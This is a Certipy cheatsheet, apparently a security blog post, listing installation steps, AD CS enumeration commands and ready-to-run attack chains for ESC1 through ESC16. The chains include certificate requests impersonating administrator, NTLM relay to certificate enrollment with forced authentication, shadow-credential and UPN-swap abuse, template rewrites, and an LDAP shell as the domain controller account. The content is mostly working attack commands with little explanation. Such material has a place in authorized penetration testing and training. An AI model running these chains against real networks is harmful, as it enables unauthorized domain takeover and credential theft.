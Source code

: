 ```yaml
---
title: Certipy Cheatsheet
author: Kasem Shibli
date: 2025-10-27 11:45:00 +/-TTTT
categories: [CheetSheets]
tags: [certipy]
---
```

# Certipy - AD CS Attack & Enumeration Toolkit
# Installation
https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation

## Using pip

```bash
$ sudo apt update && sudo apt install -y python3 python3-pip
$ python3 -m venv certipy-venv
$ source certipy-venv/bin/activate
$ pip install certipy-ad
```
## Using pipx

```bash
$ pipx install -f "git+https://github.com/ly4k/Certipy.git"
```
## Using uv

```
$ uv tool install git+https://github.com/ly4k/Certipy --force
```
# Enumeration
Search for vulnerable certificate templates

```bash
$ certipy find -u username -p password -dc-ip ip -target dc -enabled -vulnerable -stdout
```
Find PKI Enrollment Services in Active Directory and Certificate Templates Names

```bash
$ nxc ldap target -u username -p password -M adcs
```
Anonymously uses RPC endpoints to hunt for ADCS CAs

```bash
$ nxc smb target -M enum_ca
```

# Attacks
## ESC1

```bash
$ impacket-addcomputer domain/username:password -computer-name computer_name -computer-pass computer_password

$ certipy req -u computer_name -p computer_password -ca ca -target domain -template template -upn administrator -dc-ip ip
```
Or
```bash
$ certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip

If you run certipy and see Minimum RSA Key Length : 4096, you may need to provide the -key-size 4096 option

$ certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip -key-size 4096

$ certipy auth -pfx administrator.pfx -domain domain -u username -dc-ip ip

$ certipy req -u username -p password -ca ca -target domain -template template -upn administrator -sid <administrator sid> -dc-ip ip 

```

## ESC3
```bash 
$ certipy req -u username -p password -ca ca -target domain -template template

$ certipy req username -p password -ca ca -target domain -template User -on-behalf-of administrator -pfx pfx_file

$ certipy auth -pfx administrator.pfx -dc-ip ip
```

## ESC4
```bash
$ certipy template -u username@domain -p password -template template -write-default-configuration -no-save

$ certipy req -u username@domain -p password -ca ca -template template -upn administrator@domain

$ certipy auth -pfx administrator.pfx -dc-ip ip

```

## ESC7
```bash
$ certipy ca -ca ca -add-officer username -u username@domain -p password -dc-ip ip -dns-tcp -ns ip

$ certipy ca -ca ca -enable-template SubCA -u username@domain -p password -dc-ip ip -dns-tcp -ns ip

$ certipy req -u username@domain -p password -ca ca -target ip -template SubCA -upn username@domain

$ certipy ca -ca ca -issue-request request_ID -u username@domain -p password

$ certipy req -u username@domain -p password -ca ca -target ip -retrieve request_ID

$ certipy auth -pfx pfx_file -domain domain -u username -dc-ip ip
```

## ESC8
```bash
$ ntlmrelayx.py -t http://domain/certsrv/certfnsh.asp -smb2support --adcs --template template --no-http-server --no-wcf-server --no-raw-server

$ coercer coerce -u username -p password -l ws_ip -t dc_ip --always-continue

$ certipy auth -pfx administrator.pfx
```

## ESC9
```bash
$ certipy shadow auto -u username@domain -hashes :hash -account target_username

$ certipy account update -u username@domain -hashes :hash -user target_username -upn administrator

$ certipy req -u target_username@domain -hashes :target_hash -ca ca -template template -target dc_ip

$ certipy account update -u username@domain -hashes :hash -user target_username -upn target_username

$ certipy auth -pfx administrator.pfx -domain domain
```

## ESC10
### Enumeration
```powershell
$ Get-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\Kdc' -Name StrongCertificateBindingEnforcement

$ Get-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel' -Name CertificateMappingMethods
```
### Exploitation
Case 2
```bash
$ certipy account -u username@domain -p password -dc-ip ip -target dc -upn dc$@domain -user victim update

$ impacket-getTGT domain/victim:password -dc-ip ip

$ export KRB5CCNAME=victim.ccache

$ certipy req -k -dc-ip ip -target dc -ca ca -template User

$ certipy account -k -dc-ip ip -target dc -upn victim@domain -user victim update

$ certipy auth -pfx dc.pfx -dc-ip ip -ldap-shell


# whoami
u:DOMAIN\DC$

# set_rbcd DC$ Machine_Account$
```

## ESC13
```bash
$ certipy req -u username -p password -ca ca -target domain -template template -dc-ip ip

$ certipy auth -pfx file.pfx -dc-ip ip

```

## ESC14
### [ADCS ESC14 Abuse Technique](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9#4a82)
```bash
$ bloodyAD --host dc -d domain -u username -p password set object target altSecurityIdentities -v 'X509:<RFC822>target@domain'

$ bloodyAD --host dc -d domain -u owned_user -p password set object target mail -v target@domain

$ certipy account update -u owned_user@domain -p password -user username -upn target

$ certipy req -u username -p password -ca ca -template template -dc-ip ip

$ certipy account update -u owned_user -p password -user username -upn username@domain -dc-ip ip

$ certipy auth -pfx pfx -dc-ip ip -user target -domain domain
```

## ESC15
### Scenario A
```bash
$ certipy req -u username@domain -p password -dc-ip ip -target dc -ca ca -template template -upn administrator@domain -sid <administrator sid> -application-policies 'Client Authentication'

$ certipy auth -pfx administrator.pfx -dc-ip ip -ldap-shell
```
### Scenario B
```bash
$ certipy req -u username@domain -p password -dc-ip ip -ca ca -template WebServer -application-policies 'Certificate Request Agent'

$ certipy req -u username@domain -p password -dc-ip ip -ca ca -template User -pfx user.pfx -on-behalf-of 'DOMAIN\Administrator'

$ certipy auth -pfx administrator.pfx -dc-ip ip
```

## ESC16

We use a user that has GenericAll or GenericWrite
```bash
$ certipy account -u owned_user@domain -p password -dc-ip ip -upn administrator -user username update

$ certipy req -u username@domain -p password -dc-ip ip -target dc -ca ca -template User -upn administrator@domain -sid <administrator sid>

$ certipy account -u owned_user@domain -p password -dc-ip ip -upn username -user username update

$ certipy auth -pfx administrator.pfx -dc-ip ip -domain domain
```
